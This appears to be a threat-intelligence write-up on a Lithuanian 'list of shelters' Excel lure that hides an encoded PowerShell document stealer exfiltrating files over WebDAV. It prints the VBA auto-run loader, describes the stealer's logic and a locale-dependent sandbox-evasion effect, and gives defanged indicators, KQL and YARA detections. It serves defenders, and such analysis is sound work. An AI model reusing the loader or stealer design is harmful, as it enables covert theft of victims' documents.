







# Sleptuviu sarasas - fake shelter list that steals your documents (and silently fails almost everywhere)    

Lithuanian lure, Cyrillic VBA macro, PowerShell document stealer, WebDAV exfiltration.    

__TL;DR:__ An Excel file called _"Sleptuviu sarasas.xlsm"_ (Lithuanian for "List of shelters") hides a PowerShell document stealer inside two cells of a hidden sheet. When it works, it uploads every doc/docx/pdf/xls/xlsx/rtf file from all local, USB and network drives to a WebDAV account on alwaysdata, every 5 minutes.    
The interesting part: __it did nothing in personal VM, on various sandbox VM's and nothing on the real PCs we checked with EDR.__ Not because of anti-VM tricks. Because of a coding.    

    

# The interesting things    

Why is this one worth a writeup? It's not sophisticated malware at all. The payload is ~70 lines of PowerShell.    

__But it is a perfect example how a "clean" sandbox report can lie to you.__    

We submitted the sample to all the usual places. Every single sandbox showed the same thing: Excel opens, macro starts, error, nothing else. No child process, no network, no files. On the real endpoints where the file was opened, EDR telemetry was also clean. Easy to close as "broken sample / FP" and move on.    

Then I changed the locale of my analysis VM to __uk-UA__ and it ran immediately. Same on Recorded Future Triage, which has `-uk` Windows images: score 10/10, PowerShell, uploads to WebDAV.    

So what's going on? Let's begin...    

# Quick malware analysis    

| | |
|---|---|
| File name | Sleptuviu sarasas.xlsm |
| SHA-256 | 128aad8cd1ec33907a77acf9b62c88ca3bfa07562815308821beef160d9ddc85 |
| SHA-1 | e49355e91ab5c2326012d8fcc1b9ab8e2db61b0d |
| MD5 | 57f3a26f5125bb1a0fa37cbeb4dae650 |
| Size | 24 761 bytes |
| Type | Office Open XML spreadsheet with macros (.xlsm) |
| vbaProject.bin SHA-256 | 55704d17d5f05019b5f616b89f8ebb0aebf7dbb38433f8b231a9c8219600c17d |

__The lure__    

The visible sheet is called `sąrašas` (list). It has a table header in Lithuanian: _Miestas, Adresas, Vietų skaičius, Statinio tipas / Pavadinimas_ (City, Address, Number of places, Building type / Name). The table is empty.    
Below it the classic bait:    

_"! Norėdami parodyti duomenis iš lentelės, spustelėkite „Įgalinti turinį“"_    
(To show the data from the table, click "Enable Content")    

__This is how the opened file looks like:__    

    

Shelters and civil protection have been a hot topic in Lithuania for a few years now, so a "list of shelters" is something people will actually want to open.    

__Document metadata (small but useful things):__    

- Created: 2024-02-20, last printed: 2024-03-12, last modified: 2026-09-25. Author fields are empty.    
- The workbook carries a Microsoft Purview (MIP) sensitivity label, tenant `43a7b066-fe01-43db-b0ea-a9c1f1a18fc5`. Together with the 2024 dates, this looks like a real document from some organisation that was taken and weaponised later. Worth a pivot if you hunt for related files.    
- The Excel that saved it runs in Russian: `Листы` in app.xml, VBA module names `ЭтаКнига`, `Лист1`, `Лист7` (these are the default Russian names for ThisWorkbook / Sheet1).    

__Where the payload is hidden__    

There is a second sheet called `Лист1`. It is hidden, and columns A:B inside it are hidden too. Only two cells have data, far down on row 350:    

- `A350` = `powershell.exe -EncodedCommand`    
- `B350` = ~8.6 KB of Base64 (UTF-16LE PowerShell)    

The macro itself has no suspicious strings, no URLs, nothing. Static engines that only look at VBA code see a few cell reads and a `WScript.Shell`.    

__The macro__ (the VBA project is locked for viewing, but olevba reads it fine):    

```vb
Private Sub Workbook_Open()
    Dim shell As Object
    Dim part1 As String, part2 As String
    Dim cmd As String

    part1 = ThisWorkbook.Sheets("Лист1").Range("A350").Value
    part2 = ThisWorkbook.Sheets("Лист1").Range("B350").Value

    cmd = part1 & " " & part2

    Set shell = CreateObject("WScript.Shell")
    shell.Run cmd, 0, False
End Sub
```    

`Workbook_Open` → read two cells → glue them together → run hidden (`0`) and don't wait (`False`). That's it.    

# Why every sandbox showed nothing    

Look at the macro again: `Sheets("Лист1")`. The sheet is looked up __by its Cyrillic name__.    

VBA is old. Module source is not stored as Unicode, it is stored as ANSI bytes in whatever codepage the project was saved with. For this file `olevba` / the `dir` stream shows __PROJECTCODEPAGE = 1251__ (Cyrillic). So inside the macro the string `"Лист1"` is just 5 bytes:    

```
CB E8 F1 F2 31
```    

When Excel loads the project, those bytes are turned back into text using the __system ANSI codepage__ of the machine (Windows calls it "Language for non-Unicode programs"). The UI language does not matter here, only the system locale.    

| System locale | Codepage | Bytes become | Result |
|---|---|---|---|
| uk-UA, ru-RU, bg-BG, sr-Cyrl... | 1251 | `Лист1` | sheet found, PowerShell runs |
| en-US, de-DE, fr-FR... (default sandbox images) | 1252 | `Ëèñò1` | Run-time error '9': Subscript out of range |
| lt-LT, lv-LV, et-EE | 1257 | `Ėčńņ1` | Run-time error '9': Subscript out of range |

There is no sheet called `Ëèñò1`, so `Sheets()` throws error 9 on the very first line. Execution stops __before__ `CreateObject("WScript.Shell")`. No process creation, no network, no file write = nothing for a sandbox or EDR to catch.    

__So the "target" is Lithuanian, but on a normal Lithuanian PC (cp1257) the malware does not work.__ It only works where the system locale is Cyrillic. In Lithuania that is not rare at all: plenty of companies and home users run Russian system locale for old accounting software and similar.    

Is it a deliberate geofence? I don't think so. It looks more like the author built and tested the file on a Cyrillic machine, it worked for him, and he never tested on a "normal" one. But the effect is the same as a very effective anti-sandbox check, and I'm sure somebody will copy this trick on purpose.    

__Lesson for analysts:__ if a macro sample "does nothing" and you see a non-ASCII sheet/module name in the VBA, check PROJECTCODEPAGE and re-run with a matching system locale (Region → Administrative → Change system locale). Or just decode the cells statically, no detonation needed.    

# The payload - PowerShell document stealer    

I don't paste the decoded script here (AV will be unhappy), but here is what it does step by step:    

1. Hardcoded config: WebDAV URL `hxxps://webdav-pred1.alwaysdata[.]net`, file types `*.doc, *.docx, *.pdf, *.xls, *.xlsx, *.rtf`, cut-off date __2024-01-01__.    
2. Creates `%USERPROFILE%\Documents\OpenDriveBackupLogs\` with `sent_files.log` and `sent_files.json`. The name tries to look like some backup tool.    
3. Builds a Basic auth header from hardcoded credentials (user `pred1`, password in clear text, redacted here).    
4. Forces TLS 1.2 and goes into an endless `while ($true)` loop.    
5. Enumerates drives with `Get-CimInstance Win32_LogicalDisk`, DriveType __2, 3, 4__ = removable (USB), local fixed, and mapped network drives.    
6. Recursively collects matching files created or modified after 2024-01-01. Skips `*:\Windows\*` and its own log folder.    
7. Checks the JSON manifest, so a file is only uploaded again if `LastWriteTimeUtc` changed. New version of a document = new upload.    
8. Uploads each file with `Invoke-WebRequest -Method Put` to `<webdav>/<DriveLetter>_<FileName>`, e.g. `C_report.docx`.    
9. Writes `Ok:` or `Error:` lines with timestamp, full local path and remote name to `sent_files.log`.    
10. `Start-Sleep 300` and repeat.    

Some notes:    

- Comments inside the script are in __Ukrainian__. Office is in Russian, lure is in Lithuanian. I'm not attributing anything from that, language artefacts are too easy to fake.    
- __No persistence.__ It lives while that `powershell.exe` lives. Reboot or logoff kills it. Every time the victim opens the "shelter list" again, it starts again.    
- It's loud: one HTTP PUT per file, one by one, with a 1900 second timeout. On a file server mapped as a network drive this will push a lot of traffic.    
- The account name `pred1` makes me think there may be `pred2`, `pred3`... Worth checking proxy logs for `webdav-*.alwaysdata.net` in general, not only this one.    
- alwaysdata is a legitimate French hosting / PaaS provider. Every account gets WebDAV at `webdav-[account].alwaysdata.net`. Legit service abuse, not attacker infrastructure. The IP seen in the sandbox (`185.31.41[.]93`) is shared hosting, so don't block the IP, block or alert on the hostname.    

__Good news for incident response:__ the malware keeps a very nice log of what it stole. If you find `sent_files.log` on a host, the `Ok:` lines are your exact list of exfiltrated files with timestamps.    

# What is stolen - simple version    

For colleagues who don't read PowerShell:    

    

__What files:__    

    

__Where it looks:__    

    

__Which documents:__    

    

__Where the files go:__    

    

# Malware in action (Triage, uk locale)    

Platforms: `win10v2004-20260911-uk` and `win11ltsc2024-20260911-uk`. Score 10/10.    

- `EXCEL.EXE` → `powershell.exe -EncodedCommand JAB3AGUAYgBk...` (unexpected child process of Office).    
- PowerShell opens every .doc/.pdf/.xls it can find, even sample files under `Program Files` (Office templates, Adobe Reader sample PDFs), because it only excludes `C:\Windows`.    
- Network: `webdav-pred1.alwaysdata[.]net` → `185.31.41[.]93:443` (FR).    
- File created: `C:\Users\Admin\Documents\OpenDriveBackupLogs\sent_files.log`.    
  

__ESET Detection:__ PowerShell/Spy.Agent.TA trojan    

<!-- add VT / ESET detection screenshots here -->    

# TTPs (MITRE ATT&CK)    

| Tactic | Technique | How |
|---|---|---|
| Initial Access | T1566.001 Spearphishing Attachment | .xlsm lure (delivery assumed, typical for this kind of file) |
| Execution | T1204.002 User Execution: Malicious File | "Įgalinti turinį" / Enable Content bait |
| Execution | T1059.005 Visual Basic | `Workbook_Open` macro |
| Execution | T1059.001 PowerShell | `powershell.exe -EncodedCommand` |
| Defense Evasion | T1027.010 Command Obfuscation | Base64 UTF-16LE command |
| Defense Evasion | T1564.003 Hidden Window | `shell.Run cmd, 0, False` |
| Defense Evasion | T1564 Hide Artifacts | payload in hidden sheet, hidden columns, row 350 |
| Defense Evasion | T1480 Execution Guardrails (accidental) | only runs on cp1251 system locale |
| Discovery | T1083 File and Directory Discovery | recursive drive walk |
| Collection | T1005 / T1025 / T1039 | local, removable and network drive data |
| Collection | T1119 Automated Collection | extension + date filter, manifest |
| Exfiltration | T1567 Exfiltration Over Web Service | HTTP PUT to alwaysdata WebDAV |
| Exfiltration | T1029 Scheduled Transfer | every 300 seconds |
| Command and Control | T1071.001 Web Protocols | HTTPS, Basic auth |

# Detection and hunting    

__Microsoft Defender / Sentinel (KQL):__    

```kql
// Office spawning encoded PowerShell
DeviceProcessEvents
| where InitiatingProcessFileName in~ ("excel.exe","winword.exe")
| where FileName in~ ("powershell.exe","pwsh.exe")
| where ProcessCommandLine has_any ("-EncodedCommand","-enc ")

// Local artefact
DeviceFileEvents
| where FolderPath has @"\Documents\OpenDriveBackupLogs\"

// WebDAV uploads to alwaysdata from PowerShell
DeviceNetworkEvents
| where RemoteUrl has "alwaysdata.net"
| where InitiatingProcessFileName in~ ("powershell.exe","pwsh.exe")
```    

__Proxy / firewall:__ HTTP `PUT` to `webdav-*.alwaysdata.net` from user workstations. Normal users have no reason to do that.    

__GPO / ASR:__ "Block all Office applications from creating child processes" (ASR rule `d4f940ab-401b-4efc-aadc-ad5f3c50688a`) kills this chain completely.    

__YARA__ (tested on the unpacked xlsm parts, file: [sleptuviu_sarasas.yar](sleptuviu_sarasas.yar)):    

```yara
rule Sleptuviu_Sarasas_HiddenCell_PowerShell
{
    meta:
        description = "PowerShell WebDAV document stealer hidden in xlsm cells (scan unpacked OOXML, e.g. xl/sharedStrings.xml)"
        author = "Lukas Apynis"
        date = "2026-10-13"
        hash = "128aad8cd1ec33907a77acf9b62c88ca3bfa07562815308821beef160d9ddc85"
    strings:
        $cmd = "powershell.exe -EncodedCommand" ascii nocase
        $p1  = "OpenDriveBackupLogs" wide base64
        $p2  = "webdavUrl" wide base64
        $p3  = "alwaysdata.net" wide base64
        $p4  = "-Method Put" wide base64
        $p5  = "sent_files.json" wide base64
    condition:
        $cmd and 2 of ($p*)
}

rule Sleptuviu_Sarasas_VBA_Project
{
    meta:
        description = "vbaProject.bin: Cyrillic (cp1251) sheet name lookup + hidden cell read + WScript.Shell"
        author = "Lukas Apynis"
        date = "2026-10-13"
        hash = "55704d17d5f05019b5f616b89f8ebb0aebf7dbb38433f8b231a9c8219600c17d"
    strings:
        $sheet = { CB E8 F1 F2 31 }            // "Лист1" in cp1251
        $book  = { DD F2 E0 CA ED E8 E3 E0 }   // "ЭтаКнига" in cp1251
        $a350  = "A350" ascii
        $wsh   = "WScript.Shell" ascii nocase
    condition:
        uint32(0) == 0xE011CFD0 and all of them
}
```    

# IOC's    

__Files__    
- Sleptuviu sarasas.xlsm - SHA-256: 128aad8cd1ec33907a77acf9b62c88ca3bfa07562815308821beef160d9ddc85    
- Sleptuviu sarasas.xlsm - MD5: 57f3a26f5125bb1a0fa37cbeb4dae650    
- vbaProject.bin - SHA-256: 55704d17d5f05019b5f616b89f8ebb0aebf7dbb38433f8b231a9c8219600c17d    
- ESET Detection: PowerShell/Spy.Agent.TA trojan    

__Network__    
- hxxps://webdav-pred1.alwaysdata[.]net    
- 185.31.41[.]93:443 (alwaysdata shared hosting, context only, don't block)    
- WebDAV user: `pred1`    

__Host__    
- `%USERPROFILE%\Documents\OpenDriveBackupLogs\sent_files.log`    
- `%USERPROFILE%\Documents\OpenDriveBackupLogs\sent_files.json`    
- `EXCEL.EXE` → `powershell.exe -EncodedCommand JAB3AGUAYgBkAGEAdgBVAHIAbAAg...`    

__Document__    
- Hidden sheet `Лист1`, payload in `A350` / `B350`    
- MIP label tenant (siteId): `43a7b066-fe01-43db-b0ea-a9c1f1a18fc5`    

# How to stay safe    
- Don't click "Enable Content" on documents that "can't show data" without it. Real documents don't need macros to show a table.    
- Block macros in files from the internet (default in modern Office, keep it that way) and enable the ASR rule for Office child processes.    
- Keep your Endpoint Security up-to-date and use best security practices (policies).    
- For advanced security, traceability and investigation - use EDR/XDR solutions. And remember: __a clean EDR or sandbox timeline does not always mean a clean file.__ Check what actually executed.    
- Cyber Security services - MDR/SOC.    

 
